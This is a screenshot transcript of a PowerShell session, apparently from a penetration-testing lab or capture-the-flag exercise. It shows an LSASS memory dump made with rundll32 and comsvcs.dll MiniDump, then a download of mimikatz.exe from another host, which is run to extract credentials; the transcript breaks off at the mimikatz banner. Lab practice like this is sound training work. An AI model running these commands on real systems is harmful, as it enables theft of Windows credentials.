 Windows PowerShell

Copyright (C) Microsoft Corporation. All rights reserved.

​

PS C:\Users\mlefay> Get-Process lsass

​

Handles NPM(K) PM(K) WS(K) CPU(s) Id SI ProcessName

------- ------ ----- ----- ------ -- -- -----------

1253 29 6728 17352 1.52 668 0 lsass

​

PS C:\Users\mlefay> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 668 C:\lsass.dmp full

PS C:\Users\mlefay> dir C:\

​

Directory: C:\

​

Mode LastWriteTime Length Name

---- ------------- ------ ----

d----- 2/25/2022 10:20 AM PerfLogs

d-r--- 5/6/2022 2:30 AM Program Files

d----- 5/6/2022 2:28 AM Program Files (x86)

d-r--- 5/17/2022 11:14 AM Users

d----- 5/17/2022 11:10 AM Windows

-a---- 5/17/2022 8:41 AM 21 Flag.txt

-a---- 3/5/2023 4:54 PM 46202253 lsass.dmp

​

Transfer Mimikatz to target and extract credentials (easiest way to transfer files is through RDP, but method shown below were used for practice):

PS C:\Users\mlefay> (New-Object Net.WebClient).DownloadFile('http://172.16.5.15:8000/mimikatz.exe','mimikatz.exe')

PS C:\Users\mlefay> ./mimikatz.exe

​

.#####. mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08

.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)

## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
